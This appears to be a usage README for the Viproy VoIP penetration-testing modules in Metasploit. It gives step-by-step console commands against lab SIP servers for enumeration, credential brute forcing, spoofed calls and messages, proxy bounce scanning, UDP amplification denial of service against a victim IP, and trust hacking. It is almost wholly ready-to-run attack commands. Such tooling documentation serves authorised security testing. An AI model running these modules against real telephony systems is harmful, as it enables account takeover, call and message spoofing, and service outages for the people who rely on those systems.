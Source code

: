 #SIP Modules Usage

##Register 

use auxiliary/voip/viproy_sip_register <br>
set RHOSTS 192.168.1.222 <br>
set USERNAME 201<br>
set FROM 201<br>
set PASSWORD password123<br>
set PROTO TCP<br>
set LOGIN true<br>
set DEBUG true<br>
set VERBOSE true <br>
run<br>

http://www.viproy.com/captures/sip_register.pcapng<br>

##Options 

use auxiliary/voip/viproy_sip_options <br>
set RHOSTS 192.168.1.221-222<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br>

http://www.viproy.com/captures/sip_options.pcapng<br>

##Negotiate 

use auxiliary/voip/viproy_sip_negotiate <br>
set RHOSTS 192.168.1.221-222<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br>

http://www.viproy.com/captures/sip_negotiate.pcapng<br>

##Subscribe 

use auxiliary/voip/viproy_sip_subscribe<br>
set RHOST 192.168.1.221<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br>

http://www.viproy.com/captures/sip_subscribe.pcapng<br>

##Enumerate 

use auxiliary/voip/viproy_sip_enumerate <br>
set RHOST 192.168.1.221<br>
set NUMERIC_USERS true<br>
set NUMERIC_MIN 100<br>
set NUMERIC_MAX 210<br>
set VERBOSE false<br>
run<br>

http://www.viproy.com/captures/sip_enumerate.pcapng<br>


##Brute Force 

use auxiliary/voip/viproy_sip_bruteforce <br>
set RHOST 192.168.1.221<br>
set NUMERIC_USERS true<br>
set NUMERIC_MIN 101<br>
set NUMERIC_MAX 102<br>
set PASSWORD letmein123<br>
set VERBOSE true<br>
set DEBUG true<br>
run<br>

http://www.viproy.com/captures/sip_bruteforce.pcapng<br>

##Invite

use auxiliary/voip/viproy_sip_invite <br>
show options <br>
set CPORT 5075<br>
set RHOST 192.168.1.222<br>
set FROM 203<br>
set TO 201<br>
set DEBUG true<br>
set VERBOSE true<br>
set LOGIN true<br>
set PASSWORD test12345<br>
set USERNAME 203<br>
run<br>

http://www.viproy.com/captures/sip_invite.pcapng<br>

##Message

use auxiliary/voip/viproy_sip_message<br>
show options <br>
set RHOST 192.168.1.222<br>
set FROM 203<br>
set TO 201<br>
set USERNAME 203<br>
set LOGIN true<br>
set MESSAGE_CONTENT test<br>
set PASSWORD test12345<br>
run<br>

http://www.viproy.com/captures/sip_message.pcapng<br>

##Proxy Bounce Scan

use auxiliary/voip/viproy_sip_proxybouncescan <br>
show options <br>
set CPORT 5089<br>
set RHOSTS 192.168.1.220-225<br>
set RPORTS 5060-5070<br>
set SIP_SERVER_IP 192.168.1.222<br>
set SIP_SERVER_PORT 5060<br>
run<br>

http://www.viproy.com/captures/sip_proxybouncescan.pcapng<br>

##UDP Amplification DOS

use auxiliary/voip/viproy_sip_udpampdos <br>
set SIP_SERVERS 192.168.1.221<br>
set VICTIM_IP 192.168.1.222<br>
set VICTIM_PORT 5098<br>
set INTERFACE en5<br>
show options <br>
run<br>

http://www.viproy.com/captures/sip_udpampdos.pcapng<br>

##UDP Trust Hacking

use auxiliary/voip/viproy_sip_trusthacking <br>
set SRC_RHOSTS 192.168.1.220-225<br>
set SIP_SERVER 192.168.1.222<br>
set THREADS 5<br>
set INTERFACE eth0<br>
run<br>

http://www.viproy.com/captures/sip_trusthacking.pcapng<br>

